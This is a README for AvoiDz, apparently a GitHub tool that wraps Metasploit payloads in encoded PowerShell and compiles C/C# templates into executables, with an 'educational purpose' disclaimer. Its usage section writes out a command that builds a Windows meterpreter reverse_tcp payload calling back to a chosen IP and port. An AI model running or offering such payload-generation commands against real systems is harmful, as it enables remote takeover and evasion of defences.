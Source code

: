 # AvoiDz
Author: Mascerano Bachir [ dev-labs ]
## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C & C# Templates to EXE's 


## Dependencies :
    1 - metasploit-framework
	2 - xterm
	3 - MinGW32
	4 - Monodevelop

## Download/Config/Usage:
    1º - Download the tool from github
         git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permission
         cd avoidz
         chmod +x setup.sh

    3°- Run setup script
         ./setup.sh == to check dependencies

    4°- Run avoidz tool == example
     ./avoidz.rb == help command
	 ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f temp1 == generate
